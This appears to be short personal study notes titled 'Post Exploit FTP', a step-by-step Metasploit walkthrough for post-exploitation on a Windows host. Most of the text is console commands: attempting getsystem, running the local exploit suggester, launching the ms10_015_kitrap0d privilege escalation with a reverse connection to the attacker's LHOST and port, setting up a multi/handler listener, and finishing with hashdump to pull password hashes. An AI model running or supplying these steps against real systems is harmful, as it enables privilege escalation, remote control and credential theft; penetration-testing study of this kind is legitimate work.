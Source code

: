```yaml
---
title: 4. Post Exploit FTP
updated: 2022-08-11T11:28:49.0000000+04:00
created: 2022-08-11T11:25:06.0000000+04:00
---
```


AM
\> **getuid**

-- you will see that you are not root

\> **getsystem**

-- to try and elevate the system too root

**<u>Backgrouding the session so you can use other commands</u>**

\> background

**<u>Post Exploit Suggester</u>**

\> search suggester

\> use post/multi/recon/local_exploit_suggester

\> options

\> set SESSION 1

\> run

*<u>(It will list all the possible post exploit that you can use against the system)</u>*

**Pick an Exploit and Run it**

\> use exploit/windows/local/ms10_015_kitrap0d

\> options

\> set SESSION 1

\> run (it will not work)

\> options

\> set LHOST {your Ip address}

\> set LPORT {4445}

\> options

\> run

IF IT DOESNT WORK YOU WILL NEED TO SETUP ANOTHER LISTENER

\> use exploit/multi/handler

\> run

Go to browser and reload the payload

Go back to msfconsole and backgroud the captured session

\> background

\> use exploit/windows/local/ms10_015_kitrap0d

\> set session 2

\> options

\> run

It will now exploit successfully and you can run post exploit commands

\> getuid

\> hashdump

\>
